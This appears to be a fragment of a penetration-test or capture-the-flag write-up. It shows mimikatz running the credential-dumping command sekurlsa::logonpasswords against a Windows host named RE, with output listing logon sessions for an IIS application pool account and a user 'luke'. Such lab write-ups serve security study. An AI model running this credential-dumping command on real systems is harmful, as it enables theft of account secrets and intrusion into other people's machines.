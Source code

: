 ![image.png](image%2042.png)

```bash
  .#####.   mimikatz 2.1.1 (x64) #17763 Dec  9 2018 23:56:50
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

sekurlsa::logonpasswords

Authentication Id : 0 ; 17122154 (00000000:0105436a)
Session           : Service from 0
User Name         : ip
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 12/17/2024 2:04:02 PM
SID               : S-1-5-82-2359649977-1374170412-3968214469-3270360982-3132161048
        msv :
        tspkg :
        wdigest :
         * Username : RE$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 99223 (00000000:00018397)
Session           : Batch from 0
User Name         : luke
Domain            : RE
Logon Server      : RE
Logon Time        : 12/16/2024 5:50:14 PM
SID               : S-1-5-21-311800348-2366743891-1978325779-1001
```
